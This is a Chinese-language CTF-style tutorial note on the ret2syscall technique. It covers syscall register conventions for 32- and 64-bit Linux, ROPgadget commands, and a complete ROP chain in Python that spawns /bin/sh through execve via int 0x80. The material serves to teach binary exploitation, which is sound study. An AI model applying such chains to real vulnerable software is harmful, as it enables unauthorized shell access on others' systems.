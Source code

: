 # ret2syscall

## 1.系统调用约定

* 32位程序： eax 对应系统调用号， ebx 、ecx 、edx 、esi 、edi 、ebp 分别对应前6个参数。`int 0x80`
* 64位程序： rax 对应系统调用号， rdi 、rsi 、rdx 、r10 、r8  、r9  分别对应前6个参数。`syscall`



## 2.32位

![image-20240812160324542](./assets/3.ret2syscall/image-20240812160324542.png)

* eax = 0x0b=execute

* ebx = "/bin/sh"

* ecx = 0

* edx = 0

* 等价于execve("/bin/sh",NULL,NULL)函数

* `ROPgadget --binary pwn --only 'int'`

## 3.64位

![image-20240812160350723](./assets/3.ret2syscall/image-20240812160350723.png)

* rax = 0x3b
* rdi = "/bin/sh"
* rsi = 0x0
* rdx = 0x0
* `ROPgadget --binary pwn | grep 'syscall'`



## 4.tips

tips：可以借助`ROPgadget`的`--ropchain`自动生成rop链条

pad处填充需要填充的字节，接下来就是按照四字节的大小将b'/bin/sh'读入内存中的位置，同时b'/bin/sh'后面还要填充成0

然后ebx赋值成b'/bin/sh'的内存位置，而ecx和edx又正好赋值成b'/bin/sh'后面填充的0，再eax自增

```python
from struct import pack

# Padding goes here
p = b''

p += pack('<I', 0x0806f02a) # pop edx ; ret
p += pack('<I', 0x080ea060) # @ .data
p += pack('<I', 0x080b81c6) # pop eax ; ret
p += b'/bin'
p += pack('<I', 0x080549db) # mov dword ptr [edx], eax ; ret
p += pack('<I', 0x0806f02a) # pop edx ; ret
p += pack('<I', 0x080ea064) # @ .data + 4
p += pack('<I', 0x080b81c6) # pop eax ; ret
p += b'//sh'
p += pack('<I', 0x080549db) # mov dword ptr [edx], eax ; ret
p += pack('<I', 0x0806f02a) # pop edx ; ret
p += pack('<I', 0x080ea068) # @ .data + 8
p += pack('<I', 0x08049303) # xor eax, eax ; ret
p += pack('<I', 0x080549db) # mov dword ptr [edx], eax ; ret
p += pack('<I', 0x080481c9) # pop ebx ; ret
p += pack('<I', 0x080ea060) # @ .data
p += pack('<I', 0x080de955) # pop ecx ; ret
p += pack('<I', 0x080ea068) # @ .data + 8
p += pack('<I', 0x0806f02a) # pop edx ; ret
p += pack('<I', 0x080ea068) # @ .data + 8
p += pack('<I', 0x08049303) # xor eax, eax ; ret
p += pack('<I', 0x0807a86f) # inc eax ; ret
p += pack('<I', 0x0807a86f) # inc eax ; ret
p += pack('<I', 0x0807a86f) # inc eax ; ret
p += pack('<I', 0x0807a86f) # inc eax ; ret
p += pack('<I', 0x0807a86f) # inc eax ; ret
p += pack('<I', 0x0807a86f) # inc eax ; ret
p += pack('<I', 0x0807a86f) # inc eax ; ret
p += pack('<I', 0x0807a86f) # inc eax ; ret
p += pack('<I', 0x0807a86f) # inc eax ; ret
p += pack('<I', 0x0807a86f) # inc eax ; ret
p += pack('<I', 0x0807a86f) # inc eax ; ret
p += pack('<I', 0x0806cc25) # int 0x80
```




